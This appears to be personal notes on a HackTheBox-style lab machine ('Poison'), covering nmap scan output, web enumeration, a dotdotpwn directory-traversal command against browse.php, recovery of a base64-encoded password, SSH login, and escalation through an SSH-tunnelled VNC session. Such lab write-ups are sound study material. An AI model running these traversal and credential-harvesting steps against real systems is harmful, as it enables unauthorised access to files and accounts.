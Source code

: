 # Enumerate

## Scan

* All ports taking too long, just doing standard before sc sv

```
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Exploits?

22 - username enumeration and maybe privesc

80 - no

## Pages:

Found phpinfo from nikto

Found index, browse, info.php files from dirbuster. 

phpinfo.php gives a php test page. Calling on browse.php gives an error? Maybe gives the dir? 

```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 3072 bytes) in /usr/local/www/apache24/data/browse.php on line 2
```

Info.php: 

```
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64
```

listfiles.php:

```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```

phpinfo has the php stuff

Directory traversal possible:

```
/sbin/dotdotpwn -m http-url -h 10.10.10.84 -u http://10.10.10.84/browse.php?file=TRAVERSAL -k "root"
```

# Access

Get the /etc/passwd and find that 'charix' is a user. What about the password? 

make an unbase64 script, get password at the end and ssh in as charix

# Escalate

* no sudo -l
* crontab doesn't show anything I can access I think
* netstat shows nothing
* see on ps -a that tightvnc is running since I saw ippsecs picture
* see xvnc version: Xvnc version TightVNC-1.3.10. No exploits listed. 
* listening on localhost? ssh forwarder? Got that working with putty and vncviewer: https://dephace.com/securing-vnc-connection-on-kali-linux-with-ssh/
* Download the secrets zip folder that I totally forgot to do
* Use ssh tunnel to get access to the VNC server

```
ssh -L 5901:localhost:5901 charix@10.10.10.84
```

* Use VNCviewer to connect and then realize I need to use the -passwd flag with that secrets file. 

```
vncviewer localhost:5901 -passwd secret
```





# Lessons

* Find something that seems useful? Make sure it's written down in case you're stuck later. 

